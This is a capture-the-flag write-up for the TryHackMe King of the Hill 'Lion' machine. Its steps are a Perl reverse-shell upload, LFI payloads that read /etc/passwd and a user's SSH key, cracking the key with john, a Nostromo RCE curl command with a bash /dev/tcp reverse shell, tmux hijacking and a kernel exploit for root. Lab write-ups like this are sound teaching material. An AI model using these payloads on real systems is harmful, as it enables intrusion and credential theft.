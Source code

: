 # Tryhackme King Of The Hill(koth) Lion
```
writeup for lion machine over at https://tryhackme.com/games/koth

I wont be showing you where the flags are located but they are really easy to find so it shouldn't be too much of a problem
```

# Foothold

## /upload directory as alex
```
we can see there is a /upload directory at port 80 once we dir bust it

uploading a normal php reverse shell is not gonna work in this case

we need to upload a perl reverse shell(https://raw.githubusercontent.com/pentestmonkey/perl-reverse-shell/master/perl-reverse-shell.pl)

change the ip and port and start listening

once you upload the perl reverse shell you will get a shell as alex.

for some reason in the source code it executes the script uploaded with perl.
```

![alt text](https://raw.githubusercontent.com/ozzzozo/writeups/main/thm/koth/img.png)

## LFI(Local File Inclusion) as gloria
```
there is a LFI at port 5555 with param ?page

we can get the users list by looking in /etc/passwd

http://machineip:5555/?page=../../../../../../../../etc/passwd		

we see there are alex,marty,gloria

out of those 3 users we can get gloria's id_rsa to connect via ssh

http://machineip:5555/?page=../../../../../../../../home/gloria/.ssh/id_rsa

save it to a file

```
```	
chmod 400 id_rsa
ssh2john id_rsa > john
john -w=/usr/share/wordlists/rockyou.txt john; 
```
```
to crack id_rsa password with john
we get passpharse 'dance' for gloria's id_rsa

now we use the id_rsa with passpharse 'dance'

ssh -i id_rsa gloria@machineip -p 1337
```

## Nostromo 1.9.6 vulns - Remote Code Execution as gloria
```
Script:
	https://www.exploit-db.com/exploits/47837

Metasploit:
	exploit/multi/http/nostromo_code_exec

Manual method:
	nc -lnvp someport
	curl -s -X POST 'http://machineip:8080/.%0d./.%0d./.%0d./bin/sh' -d '/bin/bash -c "/bin/bash -i >& /dev/tcp/yourip/someport 0>&1"' 

can't cd into folders but can ls and cat - we need to get in via ssh
ls /home; to get user names

cat /home/gloria/.ssh/id_rsa; to get gloria's id_rsa for ssh

```
```
chmod 400 id_rsa
ssh2john id_rsa > john
john -w=/usr/share/wordlists/rockyou.txt john; to crack id_rsa password with john
```
```
we get passpharse 'dance' for gloria's id_rsa

now we use the id_rsa with passpharse 'dance'

ssh -i id_rsa gloria@machineip -p 1337 
```

# Getting root
```
we run linpeas to find the following
```

## tmux (gloria only?)
```
/usr/bin/tmux -S /.dev/session attach -t 0
```

## Kernel exploit
```
wget https://github.com/gugronnier/CVE-2017-16995/blob/master/exploit-poc-pentest.c
gcc --static exploit-poc-pentest.c -o exploit-poc-pentest
chmod +x ./exploit-poc-pentest 

upload the binary to the machine and run it to get root.
```
